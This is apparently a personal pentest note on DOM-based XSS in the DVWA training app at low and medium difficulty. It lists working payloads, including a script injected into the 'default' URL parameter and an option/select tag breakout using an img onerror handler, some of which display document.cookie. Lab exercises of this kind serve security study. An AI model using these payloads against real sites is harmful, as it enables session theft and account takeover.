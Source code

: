 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

POC:
```
http://dvwa.local/vulnerabilities/xss_d/?default=<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

Now grab cookie:
```
<script>alert(document.cookie)</script>
```

MEDIUM
Here we need to escape out of the `option` and `select` tags:

POC:
```
/option></select><img src='x' onerror='alert(1)'>
```

Now grab cookie:
```
/option></select><img src='x' onerror='alert(document.cookie)'>
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

